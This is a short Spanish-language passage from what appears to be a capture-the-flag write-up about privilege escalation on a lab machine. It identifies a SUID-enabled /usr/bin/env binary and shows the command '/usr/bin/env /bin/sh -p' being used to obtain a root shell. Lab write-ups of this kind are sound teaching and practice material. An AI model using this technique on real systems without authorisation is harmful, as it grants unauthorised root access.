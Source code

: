 ![20231017170507.png](20231017170507.png)

Tenemos un binario `SUID` el cual es vulnerable, en [GTGOBINS](https://gtfobins.github.io/gtfobins/env/#suid) puedes tener mas detalles

Ahora ejecutaremos el comando, para poder tener una shell del usuario `root`

```java
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
```

### Usuario: root

![20231017170705.png](20231017170705.png)

¡VAMOS! somos root
